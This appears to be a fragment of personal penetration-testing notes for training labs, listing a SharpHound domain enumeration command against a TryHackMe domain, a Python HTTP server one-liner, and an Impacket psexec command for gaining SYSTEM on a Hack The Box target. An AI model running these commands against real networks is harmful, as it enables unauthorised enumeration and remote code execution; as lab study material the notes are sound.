 ```bash


SharpHound.exe --CollectionMethods All --Domain za.tryhackme.com --ExcludeDCs


```



# server http
```python
python3 -m http.server 8000
```


# if u Administrator want system => PSExec from Impacket
```
psexec.py active.htb/administrator@10.10.10.100
```
